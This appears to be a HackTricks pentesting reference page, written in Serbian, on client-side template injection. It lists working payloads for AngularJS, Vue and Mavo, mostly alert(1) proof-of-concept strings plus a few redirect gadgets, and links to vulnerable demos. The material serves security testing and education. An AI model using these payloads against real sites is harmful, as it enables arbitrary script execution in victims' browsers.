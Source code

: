 # Client Side Template Injection (CSTI)

{{#include ../banners/hacktricks-training.md}}

## Summary

To je kao [**Server Side Template Injection**](ssti-server-side-template-injection/index.html) ali u **klijentu**. **SSTI** može omogućiti **izvršavanje koda** na udaljenom serveru, dok **CSTI** može omogućiti **izvršavanje proizvoljnog JavaScript** koda u pretraživaču žrtve.

**Testiranje** za ovu ranjivost je veoma **slično** kao u slučaju **SSTI**, interpreter očekuje **šablon** i izvršiće ga. Na primer, sa payload-om kao što je `{{ 7-7 }}`, ako je aplikacija **ranjiva** videćete `0`, a ako nije, videćete original: `{{ 7-7 }}`

## AngularJS

AngularJS je široko korišćen JavaScript okvir koji interaguje sa HTML-om kroz atribute poznate kao direktive, a jedna od značajnih je **`ng-app`**. Ova direktiva omogućava AngularJS-u da obradi HTML sadržaj, omogućavajući izvršavanje JavaScript izraza unutar dvostrukih vitičastih zagrada.

U scenarijima gde se korisnički unos dinamički ubacuje u HTML telo označeno sa `ng-app`, moguće je izvršiti proizvoljan JavaScript kod. To se može postići korišćenjem sintakse AngularJS-a unutar unosa. Ispod su primeri koji pokazuju kako se JavaScript kod može izvršiti:
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```
Možete pronaći vrlo **osnovni online primer** ranjivosti u **AngularJS** na [http://jsfiddle.net/2zs2yv7o/](http://jsfiddle.net/2zs2yv7o/) i u [**Burp Suite Academy**](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression)

> [!CAUTION] > [**Angular 1.6 je uklonio sandbox**](http://blog.angularjs.org/2016/09/angular-16-expression-sandbox-removal.html) tako da od ove verzije payload poput `{{constructor.constructor('alert(1)')()}}` ili `<input ng-focus=$event.view.alert('XSS')>` treba da radi.

## VueJS

Možete pronaći **ranjivu Vue** implementaciju na [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh)\
Funkcionalni payload: [`https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`](<https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%7D>)

I **izvorni kod** ranjivog primera ovde: [https://github.com/azu/vue-client-side-template-injection-example](https://github.com/azu/vue-client-side-template-injection-example)
```markup
<!-- Google Research - Vue.js-->
"><div v-html="''.constructor.constructor('d=document;d.location.hash.match(\'x1\') ? `` : d.location=`//localhost/mH`')()"> aaa</div>
```
Stvarno dobar post o CSTI u VUE može se naći na [https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V3**
```
{{_openBlock.constructor('alert(1)')()}}
```
Kredit: [Gareth Heyes, Lewis Ardern & PwnFunction](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)

### **V2**
```
{{constructor.constructor('alert(1)')()}}
```
Kredit: [Mario Heiderich](https://twitter.com/cure53berlin)

**Proverite više VUE payload-a na** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)

## Mavo

Payload:
```
[7*7]
[(1,alert)(1)]
<div mv-expressions="{{ }}">{{top.alert(1)}}</div>
[self.alert(1)]
javascript:alert(1)%252f%252f..%252fcss-images
[Omglol mod 1 mod self.alert (1) andlol]
[''=''or self.alert(lol)]
<a data-mv-if='1 or self.alert(1)'>test</a>
<div data-mv-expressions="lolx lolx">lolxself.alert('lol')lolx</div>
<a href=[javascript&':alert(1)']>test</a>
[self.alert(1)mod1]
```
**Više payload-a u** [**https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations**](https://portswigger.net/research/abusing-javascript-frameworks-to-bypass-xss-mitigations)

## **Lista za detekciju brute-force-a**

{{#ref}}
https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssti.txt
{{#endref}}

{{#include ../banners/hacktricks-training.md}}
